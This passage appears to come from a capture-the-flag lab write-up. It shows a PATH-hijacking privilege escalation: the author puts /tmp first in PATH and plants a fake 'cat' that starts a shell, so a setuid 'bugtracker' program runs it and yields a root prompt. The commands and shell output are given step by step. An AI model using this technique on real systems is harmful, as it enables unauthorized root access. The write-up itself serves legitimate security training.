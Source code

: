 ```bash
Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

There seem to be two other bugs, but no fourth (and presumable no fifth, etc.).
```bash
robert@oopsie:~$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 4
4
---------------

cat: /root/reports/4: No such file or directory

robert@oopsie:~$
```

Unfortunately the executable is compiled, but from the above `cat` error we can gleam that `cat` is used to print some report file.  What we can do is something very clever: create our own `cat` executable and give it priority in path so that the `bugtracker` command uses this instead!  If our own cat creates a shell of its own, then we will have root privileges!
```bash
robert@oopsie:~$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo '/bin/bash' > cat && chmod +x cat
echo '/bin/sh' > cat && chmod +x cat
```

Now running `bugtracker` once more we look to have silent success:
```bash
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

root@oopsie:/tmp#
```
